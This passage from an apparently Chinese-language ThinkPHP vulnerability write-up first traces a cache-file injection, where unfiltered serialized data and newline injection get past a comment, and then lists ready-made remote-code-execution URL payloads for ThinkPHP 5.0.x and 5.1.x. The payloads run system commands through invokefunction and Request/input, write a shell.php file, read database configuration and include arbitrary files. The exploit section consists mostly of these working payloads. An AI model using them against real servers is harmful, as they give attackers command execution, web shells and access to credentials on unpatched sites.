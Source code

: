- thinkphp/library/think/Cache.php:36

*跟进connect方法*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518163822.png)

*先打印一下options内容*

```
array (size=4)
  'type' => string 'File' (length=4)
  'path' => string '/Applications/MAMP/htdocs/runtime/cache/' (length=40)
  'prefix' => string '' (length=0)
  'expire' => int 0
```

*type为file，先赋值一个$name，class为\think\cache\driver\File*


- thinkphp/library/think/cache/driver/File.php:137

*跟踪一下File类的set方法*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518173501.png)

- thinkphp/library/think/cache/driver/File.php:67

*跟进文件名生成方法，程序先获得键名的 md5 值，然后将该 md5 值的前 2 个字符作为缓存子目录，后 30 字符作为缓存文件名。*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518173501.png)

*$data变量为序列化的值，没有进行过滤直接将内容写进了缓存，前面有//注释符，可以通过注入换行符绕过该限制。*

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20200518174320.png)

## 未开启强制路由导致rce

- 影响版本

**5.0.7<=ThinkPHP<=5.0.22**

- payload

**5.1.x ：**

```
?s=index/\think\Request/input&filter[]=system&data=pwd
?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```

**5.0.x ：**

```
?s=index/think\config/get&name=database.username # 获取配置信息
?s=index/\think\Lang/load&file=../../test.jpg    # 包含任意文件
?s=index/\think\Config/load&file=../../t.php     # 包含任意.php文件
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
```
